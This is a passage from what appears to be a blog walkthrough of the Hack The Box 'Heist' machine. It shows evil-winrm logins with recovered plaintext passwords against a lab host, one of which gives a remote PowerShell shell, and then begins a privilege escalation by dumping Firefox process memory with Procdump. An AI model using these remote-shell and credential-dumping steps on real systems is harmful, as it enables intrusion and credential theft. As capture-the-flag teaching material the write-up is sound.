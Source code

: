 And let's run it with `exploit`:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/heist/metasploit-results.png)

Cool! We've found the passwords of Hazard and Chase! Now we can use `evil-winrm`
(install it with `gem install --user evil-winrm`) to check if one of the two
users is allowed to get a remote shell:
```
$ evil-winrm -u Hazard -p stealth1agent -i 10.10.10.149
Evil-WinRM shell v2.0
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```
No luck with Hazard, let's try with Chase:
```
$ evil-winrm -u Chase -p 'Q4)sJu\Y8qz*A3?d' -i 10.10.10.149
Evil-WinRM shell v2.0
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents>
```

And we got a shell! Let's check the flag:
```
*Evil-WinRM* PS C:\Users\Chase\Desktop> Get-Acl user.txt
    Directory: C:\Users\Chase\Desktop

Path     Owner             Access
----     -----             ------
user.txt SUPPORTDESK\Chase NT AUTHORITY\SYSTEM Allow  FullControl...
```

## Privilege escalation

Listing the files in the Desktop, there's a curious one:
```
PS > type todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```

Following the usual enumeration techniques and listing the running processes
with `Get-Process`, reveals us that there are some instances of Firefox running,
which stands out among the others. The first thing that I did was to search in
the user `AppData` folder for Firefox data like bookmarks, visited URLs and
things like that, but I had no luck with it.

The next thing that came to my mind is to dump the processes memory with
[Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump).
After downloading it on our machine, and moving it in the same folder that we
launched `evil-winrm` from, we can upload it using it's `upload` command:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/heist/upload.png)
